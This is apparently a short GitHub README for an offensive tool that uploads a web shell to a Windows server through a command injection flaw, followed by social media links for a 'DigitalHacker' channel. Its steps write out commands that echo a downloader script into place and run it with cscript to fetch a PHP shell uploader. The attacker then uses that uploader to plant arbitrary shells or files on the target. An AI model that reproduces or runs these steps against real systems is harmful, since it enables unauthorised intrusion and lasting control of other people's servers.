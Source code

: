 # Windows Command injection Shell Uploader
Upload shell in windows server using command injection vulnerbility.

# Steps

* echo put wget.js file code here >weget.js
* cscript /nologo weget.js http://localhost/wci_shell_uploader.php

After those two commands your get shell uploader at http://target.com/shell.php go on this link & upload your shell or files.

# Video

[![Video](https://i.imgur.com/WjJJT7D.png)](https://youtu.be/H5F93uEK7ME)

Youtube  : https://www.youtube.com/DigitalHackerOfficial<br/>
Facebook : https://www.facebook.com/DigitalHackerOfficial<br/>
Twitter  : https://twitter.com/Shehryar_DH<br/>
Google+  : https://plus.google.com/+DigitalHacker<br/>
Email    : digitalhacker07@gmail.com
